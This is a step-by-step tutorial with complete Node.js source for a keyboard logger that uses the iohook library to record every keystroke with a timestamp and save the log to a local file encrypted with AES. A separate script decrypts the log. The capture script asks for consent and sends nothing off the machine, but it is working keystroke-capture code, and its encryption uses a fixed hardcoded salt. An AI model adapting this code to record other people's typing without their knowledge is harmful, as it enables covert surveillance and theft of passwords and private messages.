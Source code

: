 # keyLOG
1) Pre-requisites:
Install Node.js (v14+ recommended) on your PC.
2) Create a new folder for your project and initialize:
Open your terminal/command prompt:
```
mkdir keylogger
cd keylogger
npm init -y
```
3) Install dependencies
We'll use:

iohook for global keyboard capturing
no external encryption lib needed, Node.js's crypto is sufficient
Install iohook:
```
npm install iohook
```
4) Create the main script: index.js
step - In your text editor (VS Code, Notepad++, etc.), create a new file called index.js and paste this:
```
const iohook = require('iohook');
const readline = require('readline');
const crypto = require('crypto');
const fs = require('fs');
const path = require('path');

const LOG_FILE = path.join(__dirname, 'keylog.enc'); // encrypted log file path
const ALGORITHM = 'aes-256-cbc';

// Store logs in memory as lines of text
let logs = [];

// Generate a random IV for AES
function generateIV() {
  return crypto.randomBytes(16);
}

// Encrypt string with password using AES-256-CBC
function encrypt(text, password) {
  const iv = generateIV();
  const key = crypto.scryptSync(password, 'salt', 32);
  const cipher = crypto.createCipheriv(ALGORITHM, key, iv);
  let encrypted = cipher.update(text, 'utf8', 'hex');
  encrypted += cipher.final('hex');
  // Return iv + encrypted data as hex
  return iv.toString('hex') + ':' + encrypted;
}

// Ask user confirmation and password
function askQuestion(query) {
  const rl = readline.createInterface({ input: process.stdin, output: process.stdout });
  return new Promise(resolve => rl.question(query, ans => {
    rl.close();
    resolve(ans);
  }));
}

(async () => {
  console.log("!!! WARNING: This program will record ALL your keyboard input.");
  let consent = await askQuestion("Do you want to start capturing keyboard input? (yes/no): ");
  consent = consent.trim().toLowerCase();

  if (consent !== 'yes') {
    console.log("Consent not given. Exiting.");
    process.exit(0);
  }

  const password = await askQuestion("Enter a password to protect your log file: ");
  if (!password) {
    console.log("Password cannot be empty. Exiting.");
    process.exit(1);
  }

  console.log("Keyboard logging started. Press Ctrl+C to stop and save.");

  // Listen for keyboard events
  iohook.on('keydown', event => {
    // Decode key - event.keychar may be undefined for some keys; log raw keycode and timestamp
    const time = new Date().toISOString();
    let keyStr = event.rawcode || event.keycode || event.keychar || 'UnknownKey';
    logs.push(`[${time}] Key: ${keyStr}`);
  });

  iohook.start();

  // On exit, save the encrypted log file
  const saveLogs = () => {
    if (logs.length === 0) {
      console.log("No keystrokes logged.");
      process.exit(0);
    }
    const plainText = logs.join('\n');
    const encrypted = encrypt(plainText, password);
    fs.writeFileSync(LOG_FILE, encrypted, { encoding: 'utf8' });
    console.log(`\nLogs saved encrypted to: ${LOG_FILE}`);
    process.exit(0);
  };

  process.on('SIGINT', () => {
    console.log('\nReceived interrupt signal. Saving logs...');
    iohook.stop();
    saveLogs();
  });

})();
```
5) Usage instructions:
Run the script by typing in terminal:
```
node index.js
```
It will display a warning and prompt:
Do you want to start capturing keyboard input? (yes/no):
Type yes if you want to proceed.

It will ask for a password to protect the log file.
Enter any password you want.

After that, all your key presses will be recorded until you press Ctrl+C to stop.

On exit, your log file will be saved encrypted as keylog.enc in the same folder.

6) To read the log file later
Here's a simple decrypt script you can create as decrypt.js to decrypt and view logs:
```
const crypto = require('crypto');
const fs = require('fs');
const path = require('path');

const LOG_FILE = path.join(__dirname, 'keylog.enc');
const ALGORITHM = 'aes-256-cbc';

function decrypt(encryptedText, password) {
  const [ivHex, encryptedData] = encryptedText.split(':');
  const iv = Buffer.from(ivHex, 'hex');
  const key = crypto.scryptSync(password, 'salt', 32);
  const decipher = crypto.createDecipheriv(ALGORITHM, key, iv);
  let decrypted = decipher.update(encryptedData, 'hex', 'utf8');
  decrypted += decipher.final('utf8');
  return decrypted;
}

const readline = require('readline');
const rl = readline.createInterface({ input: process.stdin, output: process.stdout });

rl.question('Enter password to decrypt log file: ', password => {
  if (!fs.existsSync(LOG_FILE)) {
    console.error('Log file not found!');
    process.exit(1);
  }
  const encryptedContent = fs.readFileSync(LOG_FILE, 'utf8');
  try {
    const decrypted = decrypt(encryptedContent, password);
    console.log('\n--- Decrypted Logs ---\n');
    console.log(decrypted);
  } catch (err) {
    console.error('Failed to decrypt file. Wrong password or corrupted file.');
  }
  rl.close();
});
```
Run it with:
```
node decrypt.js
```
Recap:
You'll have two scripts: index.js (to record) and decrypt.js (to read).
keylog.enc file stores encrypted logs.
Password you provide protects your data.
Notes:
This script uses native Node.js modules and a popular native keylogger iohook.
You might need to build iohook binaries on some platforms, Replit and some environments may not support it well. Preferred to run locally on your PC.
You must run this script with admin privileges on some systems for global keyboard capture.
